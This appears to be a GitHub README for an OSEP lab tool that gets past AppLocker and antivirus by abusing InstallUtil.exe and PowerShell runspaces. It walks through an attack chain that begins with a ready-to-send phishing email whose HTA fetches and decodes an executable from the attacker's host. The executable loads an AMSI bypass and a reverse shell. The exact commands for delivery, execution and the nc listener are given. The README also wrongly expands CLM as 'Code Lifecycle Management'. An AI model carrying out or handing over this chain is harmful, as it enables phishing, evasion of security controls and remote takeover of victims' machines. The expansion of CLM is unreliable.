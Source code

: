 # 🧠 OSEP CLM Bypass Project – PowerShell Runspace Loader (AppLocker Evasion)

This project demonstrates a stealthy AV/EDR evasion and **AppLocker bypass technique** by abusing `InstallUtil.exe` (a Microsoft LOLBin) and executing PowerShell payloads via .NET Runspaces. It was developed as part of an OSEP lab exercise to simulate a realistic phishing attack in an environment hardened against traditional payloads.

The core of this technique leverages the **CLM (Code Lifecycle Management) bypass**, which uses a C# executable with a custom `Uninstall()` method and a `[RunInstaller(true)]` attribute. This allows us to execute arbitrary code without ever touching `powershell.exe`, effectively **bypassing AppLocker and application whitelisting policies**.

---

## 🔧 Overview

The payload is a compiled C# executable (`bypassrunner.exe`) that:

- Uses `System.Management.Automation.dll` to load and execute PowerShell scripts in memory via Runspaces
- Executes its logic inside the `Uninstall()` method to abuse `InstallUtil.exe /U` behavior
- Avoids calling `powershell.exe` directly, increasing stealth and bypassing AppLocker
- Downloads and executes:
  - `amsi.txt`: a PowerShell AMSI bypass
  - `shell.ps1`: a reverse shell PowerShell payload

The entire execution chain is triggered from a `.hta` phishing file.

---

## 📁 Files and Execution Chain

1. **bypassrunner.exe**  
   The compiled C# executable with PowerShell runspace-based execution inside `Uninstall()`.

2. **payload.txt**  
   A base64-encoded version of the executable, created using:
   ```
   certutil -encode bypassrunner.exe payload.txt
   ```

3. **amsi.txt**  
   Contains an AMSI bypass to disable AMSI inspection at runtime.

4. **shell.ps1**  
   A PowerShell reverse shell script that connects back to the attacker's listener.

5. **pishing.hta**  
   An HTML Application file that:
   - Downloads `payload.txt`
   - Decodes it to `runner.exe`
   - Executes it using `InstallUtil.exe /U`

---

## 🛠 Compilation

The project is compiled using **Visual Studio**. To do so:

1. Create a new **Console Application (.NET Framework)** project.
2. Add references to:
   - `System.Configuration.Install`
   - `System.Management.Automation` from:
     ```
     C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
     ```
3. Replace `Program.cs` content with the payload code.
4. Build the project to produce `bypassrunner.exe`.

---

## 🚀 Execution Flow

1. Start a web server in the attacker machine:
   ```
   python3 -m http.server 80
   ```

2. Host the following files:
   - `payload.txt` (encoded binary)
   - `amsi.txt` (AMSI bypass)
   - `shell.ps1` (reverse shell)
   - `phishing.hta` (delivery vector)

3. Send the phishing email to the victim with the following command:
   ```
   sendEmail -s 192.168.1.160 -target@target.com -f attacker@attacker.com -u "Urgent: Please review this issue" -m "Hi Victim, We’ve detected an issue affecting mail delivery. Please review the report as soon as possible: http://192.168.1.130/phishing.hta Let us know if you have any trouble accessing it. Thanks, IT Support"
   ```

4. When executed, the `.hta`:
   - Downloads `payload.txt`
   - Decodes it with `certutil` to `runner.exe`
   - Executes it using:
     ```
     C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U %TEMP%\runner.exe
     ```

5. The EXE runs the PowerShell payload using Runspaces:
   - Loads and executes `amsi.txt`
   - Loads and executes `shell.ps1` in memory

6. The attacker receives a reverse shell connection on port 443:
   ```
   rlwrap -cAr nc -lvnp 443
   ```

---

## 📌 Key Features

- Bypasses AppLocker using the CLM technique via `InstallUtil.exe`
- Fileless PowerShell execution using Runspaces
- Avoids traditional signatures and blocked binaries like `powershell.exe`
- Leverages trusted Microsoft LOLBins (`InstallUtil.exe`, `certutil.exe`)
- Suitable for environments with application whitelisting and antivirus protections

---

## ⚠ Disclaimer

This project is for **educational and authorized penetration testing only**. Do not use this method on systems for which you do not have explicit permission. Misuse may violate laws and result in consequences.
